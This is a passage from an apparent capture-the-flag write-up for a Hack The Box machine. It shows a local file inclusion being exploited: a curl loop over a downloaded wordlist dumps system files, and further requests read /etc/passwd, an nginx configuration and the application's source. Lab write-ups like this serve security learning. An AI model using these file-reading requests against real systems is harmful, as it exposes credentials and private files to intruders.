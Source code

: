 ```shell
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

Since we are able to get a LFI, we can try to get most known files :

```shell
wget https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_linux.txt -O file_inclusion_linux.txt

while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s\n' "$p"
  curl -s http://beta.only4you.htb/download --data "image=$p"
done < file_inclusion_linux.txt > lfi_out.txt
```

We can find the nginx configuration file for this site

/etc/nginx/sites-enabled/default

```text
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

Thi provide the path of the main application: `/var/www/only4you.htb/`. Knowing the file structure of the beta application, we can read the code of this application :

```shell
curl -s http://beta.only4you.htb/download --data "image=/var/www/only4you.htb/app.py"
```
